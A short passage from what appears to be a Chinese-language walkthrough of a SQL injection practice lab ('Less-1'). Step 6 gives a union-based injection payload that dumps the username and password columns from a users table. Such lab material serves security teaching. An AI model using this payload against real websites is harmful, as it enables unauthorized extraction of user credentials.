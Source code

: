 ![Less-1_18](./img/Less-1_18.png)



6. 通过上述操作可得到两敏感字段<code>username</code>和<code>password</code>,接下来注入<code>?id=-1' union select 1,2,group_concat(username ,id , password) from users--+</code>得到字段对应的内容，在中间加了一个id可以隔一下账户和密码。

~~~ shell
?id=-1' union select 1,2,group_concat(username ,id , password) from users--+
~~~

![Less-1_19](./img/Less-1_19.png)
